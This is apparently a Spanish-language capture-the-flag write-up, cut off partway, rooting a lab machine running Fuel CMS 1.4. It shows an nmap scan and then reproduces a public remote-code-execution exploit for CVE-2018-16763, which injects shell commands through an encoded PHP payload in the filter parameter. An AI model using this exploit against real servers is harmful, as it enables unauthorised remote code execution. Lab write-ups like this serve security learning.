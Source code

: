 ### Task 1 - Root it!

Iniciamos arrancando la máquina virtual, esperamos a que cargue y nos de nuestra IP, una vez dentro de ella, vamos a obtener los servicios activos con el siguiente comando nmap:

```
nmap -sC - sV -T4 10.201.100.131
```

Al hacerlo, podemos ver que hay un servicio activo en el puerto 80, como se aprecia a continuación:

```shell
PORT   STATE SERVICE
80/tcp open  http
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS
```

Por lo que procedemos a colocar en la barra del navegador la siguiente dirección:

```
10.201.100.131
```

Una vez que nos carga la página web que nos dice **Welcome to Fuel CMS**, donde aparentemente no hay mucha información por destacar es la versión de CMS que está corriendo, que es la 1.4.

Sabiendo eso, procedemos a buscar un exploit para el servicio que esta usando el servidor, encontrando en *Exploit Database*, por lo que procedemos a descargarlo, encontrando lo siguiente:

```python
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)

# Date: 2019-07-19

# Exploit Author: 0xd0ff9

# Vendor Homepage: https://www.getfuelcms.com/

# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1

# Version: <= 1.4.1

# Tested on: Ubuntu - Apache2 - php5

# CVE : CVE-2018-16763

import requests

import urllib

url = "http://127.0.0.1:8881"

def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
    xxxx = raw_input('cmd:')
    burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
    proxy = {"http":"http://127.0.0.1:8080"}
    r = requests.get(burp0_url, proxies=proxy)
    html = "<!DOCTYPE html>"
```